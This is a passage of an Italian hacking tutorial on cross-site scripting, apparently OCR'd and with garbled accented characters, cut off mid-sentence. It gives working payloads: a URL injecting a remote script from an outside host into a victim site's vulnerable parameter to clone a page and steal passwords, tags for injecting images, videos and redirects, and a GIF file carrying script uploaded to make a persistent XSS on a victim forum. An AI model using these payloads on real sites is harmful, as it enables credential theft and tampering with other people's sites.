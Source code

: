 pagina web simile a quella originale ed usarla per appropiarci di password o altri dati

sensibili.

Esempio:
Pagina da includere: http://vuln.xssed.net/thirdparty/scripts/ckers.org.js

L'url del sito sarÃ :

http://sitovittima.it/paginavulnerabile.php?varvuln="><script

src="http://vuln.xssed.net/thirdparty/scripts/ckers.org.js"></script>

La pagina in js, se il sito non filtra, puÃ² anche essere scritta in HTML, e sarÃ  quindi
http://sitodelpoverocaio.it/paginavulnerabile.php?varvuln="><script

src="http://vuln.xssed.net/thirdparty/scripts/ckers.org.html"></script>

In questo modo all'url creato corrisponderÃ  la pagina che in js ( o HTML ) che abbiamo

incluso.






Code:
[+]Altri tipi di XSS:

CHi ha mai dett che in una xss possiamo solo inserire un testo o far comparire un alert o

giocare con i cookie..?
POssiamo fare molte altre cose come includere immagini,video,redirect e quant'altro..
Ecco qui di seguito una piccola lista di codice Javascript alternativo:

Stampare un'immagine nella pagina vulnerabile:

<IMG SRC="http://www.tuosito.com/img.png">

Visualizzare un video:

<EMBED SRC="http://www.tuosito.com/video.swf">

Redirect verso un altra pagina web\video\immagine:

<script>window.open("http://www.tuosito.com/pagina.html")</script>

*al posto di ../pagina.html possiamo mettere tutto: video.swf / img.png   / ecc..





Ora cancelliamo tutto tranne questi pochi caratteri iniziali(che servono per riconoscere ed

accettare questo file come .gif)
Ed inseriamo l'ormai famoso codice Javascript:

GIF89a<script>alert("XSS")</script>

Ora salviamo l'immagine (sempre in .gif) e facciamo l'upload sul sito vittima / forum /

sezione commenti ..
Ora questa xss Ã¨ diventata permanente poichÃ¨ chiunque vada sull'url contenente questa
